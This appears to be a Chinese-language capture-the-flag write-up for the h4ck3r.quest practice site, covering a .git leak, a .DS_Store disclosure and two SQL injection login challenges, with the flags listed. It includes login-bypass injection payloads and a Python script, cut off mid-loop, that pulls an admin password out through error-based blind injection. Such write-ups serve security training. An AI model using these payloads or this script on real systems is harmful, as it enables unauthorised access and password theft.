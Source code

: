 # h4ck3r.quest

## gitleak
由題目可知，與 git leak 有關

測試發現路徑 `.git/config` 存在
使用 scrabble 工具進行萃取，獲得原始碼

FLAG{gitleak_is_fun}

## .DS_Store
由題目可知與 `.DS_Store` 有關

在 `.DS_Store` 路徑下確實看到以下資訊
```
s u p e r _ s e c r e t _ m e o w m e o w . p h p
```

進入後得到 flag

FLAG{.DS_Store is so annoying lmao}

## Log me in
account: `' or 1=1) -- #`

FLAG{b4by_sql_inj3cti0n}

## Log me in: Revenge
### 解法 1
account: `') union select 'admin','pass' -- #`
password: `pass`

FLAG{un10n_bas3d_sqli}

### 解法 2

error based 掃描

```python=
import requests
url = "http://h4ck3r.quest:8201/login"

# chr = [chr(ord('a')+x) for x in range(26)] + [chr(ord('A')+x) for x in range(26)] + [chr(ord('0')+x) for x in range(10)] + ['_', '-', '.', '/', '!', ' ', '*', '(', ')', '+', '=', '&', '^', '{', '}', '[', ']', '@', '"', "'", '#', '$', '%']

total_str = ""

for i in range(1, 44):
    front = 0
    end = 127
    while(front < end):
        mid = (front + end) // 2
        j = chr(mid)
        payload = f"adn') union select null, null from admin where (username='admin' and 1/(substr(password,{i},1)>\"{j}\") and '1'='1"
        myobj = {'username': payload, 'password': 'xx'}
        x = requests.post(url, data = myobj)
        if(x.status_code == 200):
            front = mid + 1
        else:
            payload = f"adn') union select null, null from admin where (username='admin' and 1/(substr(password,{i},1)=\"{j}\") and '1'='1"
```